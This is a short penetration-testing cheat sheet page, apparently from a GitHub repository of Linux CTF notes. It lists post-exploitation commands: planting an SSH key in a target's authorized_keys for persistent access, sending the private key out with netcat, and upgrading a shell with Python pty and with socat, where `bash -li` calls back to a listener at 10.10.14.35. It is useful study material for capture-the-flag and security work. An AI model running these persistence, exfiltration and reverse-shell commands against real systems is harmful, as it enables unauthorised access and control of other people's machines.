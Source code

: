 # SSH
- Using .ssh/authorized_keys
  - Create the keys: `ssh-keygen -t rsa`
  - Copy the public to .ssh/authorized_keys: `cp id_rsa.pub ~/.ssh/authorized_keys`
  - Change the permissions of the .ssh folder to 700: `chmod 700 ~/.ssh`
  - Change the permissions of the .ssh/authorized_keys file to 600: `chmod 600 ~/.ssh/authorized_keys`
  - Download the private key: `nc ip port < id_rsa`
  - Change the permissions of the local priate key to 600: `chmod 600 id_rsa`
  - Log in using SSH: `ssh -i id_rsa user@ip`

# [Upgrading TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- With Python:
```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl+z
	echo $TERM && tput lines && tput cols
	stty raw -echo
	fg
	export SHELL=bash
	export TERM=xterm-256color
	stty rows 24 columns 121
```
- With Socat:
```bash
	socat file:`tty`,raw,echo=0 tcp-listen:4445
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.35:4445
```

# [General](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/general.md)
# [Enumeration](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/enumeration.md)
# [Local File Inclusion](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/local%20file%20inclusion.md)
# [Networking](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/networking.md)
# [Characters not allowed](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/characters%20not%20allowed.md)
# [Exploitation](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/exploitation.md)

